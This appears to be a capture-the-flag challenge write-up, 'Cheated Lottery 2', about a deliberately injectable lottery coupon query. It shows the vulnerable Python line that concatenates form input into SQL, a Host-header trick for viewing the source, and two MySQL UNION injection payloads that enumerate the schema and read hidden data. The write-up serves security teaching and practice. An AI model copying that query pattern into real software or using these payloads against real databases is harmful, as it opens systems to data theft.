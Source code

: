 # Cheated Lottery 2

I am an admin of this lottery and I found my mistakes in the code - I fixed them before my boss could see them. Unfortunately no one can win now - small price for not being fired. Need to fix this ASAP...

## Challenge

Flag is stored in `bm9wZS1ub3QtaGVyZS4uLm9yIGlzIGl0Pwo` database - you need to read it using SQLi

To run this you have to change flag in `entrypoint.sh` and build a docker image. Server will be exposed on port 7331

## Solution

You can see python code by accessing `/?source=1` with Host header set to localhost

Vulnerable piece of code:
```python
mycursor.execute("SELECT * FROM coupons WHERE code = /*" + str(form['cid']) + "*/ '1234'")
```

As seen [here](https://wiki.owasp.org/index.php/Testing_for_MySQL#Fingerprinting_MySQL) we can use syntax specific for MySQL

1. SQL: 
```sql
!'' UNION SELECT 1, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' AND '1234'=0 --
```

2. SQL: 
```sql
!'' UNION SELECT 1,Y29sdW1ueGRuYW1l,2 FROM ZnVubnkgdGFibGUgbmFtZQ WHERE '1234'=0 --
```
